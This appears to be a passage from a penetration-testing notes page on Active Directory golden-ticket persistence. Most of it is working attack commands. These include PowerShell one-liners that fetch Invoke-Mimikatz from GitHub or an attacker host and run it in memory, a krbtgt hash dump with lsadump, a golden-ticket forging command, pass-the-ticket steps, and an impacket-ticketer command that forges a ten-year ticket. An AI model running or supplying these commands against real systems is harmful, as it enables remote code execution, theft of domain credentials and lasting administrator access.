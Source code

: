 > The next way to load it into memory is if we have internet access, otherwise we would have to load it in another way.
* * In-Memory
```Powershell
IEX ([System.Text.Encoding]::UTF8.GetString((New-Object system.net.WebClient).DownloadData("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")))
```

* * In-Memory Another way
```
python3 -m http.server
```

```Powershell
IEX(New-Object system.Net.WebClient).downloadString('http://ip:port/Invoke-Mimikatz.ps1')
```

* * Dump
```Powershell
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'
```

* * Gold-Ticket
```Powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:pepe.local /sid:S-1-5... /rc4:<NTLM> /user:Administrator /ticket:gold.kirbi"'
```
* * Pesistence-Gold.kirbi

![image](https://user-images.githubusercontent.com/84678370/129996058-d9aa82e5-6ecb-4e27-9be3-3711fdb8eb3e.png)

> It is clear that we cannot list the DC files. It would be bad enough if we could without any permissions. This is where our precious mimikatz & gold.kirbi comes in.

```
mimikatz.exe
```

```
kerberos::ptt gold.kirbi

exit
```

![image](https://user-images.githubusercontent.com/84678370/129995781-d88fad4c-f0ec-4457-bbc6-3abb0c7543ca.png)

### __Persistence-Ticketer__

- __https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py__

> This script will create TGT/TGS tickets from scratch or based on a template (legally requested from the KDC)
allowing you to customize some of the parameters set inside the PAC_LOGON_INFO structure, in particular the groups, extrasids, etc. Tickets duration is fixed to 10 years from now (although you can manually change it)

```
impacket-ticketer -nthash <ntlm> -domain-sid S-1-5-2... -domain pepe.local Administrador
```
> On our machine (I say this just in case) we have to specify to an environment variable (KRB5CCNAME) the absolute path where Ticketer has saved the Administrator.ccache file.
